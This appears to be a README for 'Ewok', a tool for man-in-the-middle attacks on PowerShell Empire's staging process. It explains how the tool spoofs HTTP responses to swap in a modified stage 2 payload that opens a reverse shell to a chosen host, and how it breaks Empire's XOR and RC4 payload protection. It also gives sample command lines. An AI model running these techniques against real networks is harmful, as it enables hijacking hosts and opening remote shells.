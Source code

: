 Ewok is a utility that demonstrates man-in-the-middle (MiTM) [counter]attacks
against Powershell Empire. 

Powershell Empire is a well designed, extremely functional, and very useful
remote administration tool for Microsoft Windows hosts. It is a wise choice 
for anyone who wishes to maintain control over a compromised Microsoft Windows
host. However, its staging process is also vulnerable to MiTM.

This program is primarily a packet sniffer. Anyone wishing to use it in a live
environment should have the following:

- Access to network traffic for the compromised host(s)
- Network access to the TCP port running the Powershell Empire staging server

When this program is used in a live environment, it does the following:

1) It reaches out to the staging server and acquires a live stage 2 payload
2) It repackages that payload with its own software
3) It delivers the payload by using packet spoofing to "overwrite" the HTTP
responses from the staging server.

However, the program can be used to assist in these attacks by constructing
the payload that would presumably be delivered in a manner of the user's
choosing. If the user wants to redirect web traffic to an alternate web server
instead of the staging server, for example, the payload can be delivered that
way too.

[Counter] Attacks against Powershell Empire 1.x will require the user to know
the URL for the staging server. The URL may be acquired through brute-force, 
although this functionality is currently not implemented.

Here is a sample command line for targeting Powershell Empire 1.6:
	./ewok.salad -u http://10.1.1.10:8080/login/process.php -c 172.16.0.5
	# This command acquires the stage 2 payload from the URL listed, 
	# and then delivers a modified payload that causes the compromised
	# host to execute a reverse shell to 172.16.0.5:4444 instead of
	# introducing Powershell Empire remote administration software.

[Counter] Attacks against Powershell Empire 2.x will require a valid 
"session cookie". This valid is delivered to the staging server and mimic's
an actual session cookie that might be used to track web users.
This value is a base64 encoded chunk of encrypted data. When decrypted,
it is a binary description of the data the staging script is requesting.
We are most concerned with the 11th byte of this field, because it describes
the language that the next set of instructions will be written in. In practice,
its value will be either 0x01 for Powershell or 0x02 for Python. The Python
payload is easier to modify, so the software alters this value, if the staging
server returns the "wrong" script initially. Because the cookie is encrypted
with RC4, modifying it to cause the server to return the desired script takes
only the three following steps:
1) Decode the "session cookie" as a base64 encoded string
2) XOR byte 12 against 0x03
3) Re-encode the modified data as a base64 encoded string
4) Request the script again

Here is a sample command line for targeting Powershell Empire 2.0:

	./ewok.salad -s WVUP/J2edjRlqEH9ctiRu75mpOM= -u http://10.1.1.10/login/process.php -t ./template -c 172.16.0.5
	# This command acquires the stage 2 payload, and if necessary, requests
	# the Python version of this software. It then repackages it with the
	# desired software. By default, this software is a Powershell "reverse
	# shell. The host specified with the "-c" flag is the host that will
	# receive this reverse shell on TCP port 4444
	# The "-t" flag designates the plaintext version of the data we are 
	# expecting to acqurie. We assume that "./template" in this example is
	# the Python staging software.

This above example requires the user to have a plaintext version of the Python
staging software. This file is actual software, and distributing it without the
consent of its authors is problematic. Users can acquire their own copy by 
executing the following command (the script is included in this distribution:
	./grabtemplate.sh ./template.sh

This program also allows users to create their own stage 2 payload for 
distribution elsewhere. The "-o" flag will allow for this payload to be 
written to a file.

Powershell Empire's stage 1 (we aren't counting from 0) staging script is what
it's users may observe when introducing this software via a command line. 
The commands that typically introduce this software to a compromised host 
include a base64 encoded string that decodes to the "stage 1" script. This 
script is relatively small, and does the following tasks:

1) Request the [much larger] stage 2 payload from the staging server via
HTTP
2) Decrypt (version 2.0) or de-obfuscate (version 1.x) the stage 2 payload
with the shared secret key
3) Execute this payload

The stage 1 script does not check signatures or validate the payload before
executing what it has decrypted/deobfuscated. This utility repackages the
"stage 2" payload and delivers it through packet spoofing. Assuming that
"ewok" has the proper network access, it will overwrite the HTTP responses
so that the "stage 1" script will download and decrypt/deobfuscate its 
scripts instead of the actual Powershell Empire stage 2 script.

"Ewok" accomplishes the repackaging by attacking the encoding/encryption of 
these payloads. Version 1.x uses XOR and a shared secret key to encode/decode
this payload. Because the plaintext is a Powershell Script, we can predict the
frequencies that certain characters occur. Some will occur much more often than
others. Furthermore, the key that it uses to XOR/unXOR the payload is an ASCII
representation of a hexadecimal number. Therefore there are only 16 possible
values for each offset. The limited keyspace and the predictability of the 
plaintext enable [counter]attackers to acquire the key through accomplishes
modeling. "Ewok" does this, and uses the key to create a new payload.

The repackaging for 2.x payloads is slightly different. RC4 is vulnerable to
MiTM, assuming that the [counter]attacker knows the plaintext. "Ewok" requests
the Python payload, because it has much less entropy than the Powershell 
payload, due to Powershell Empire's randomization of case for Powershell
commands.
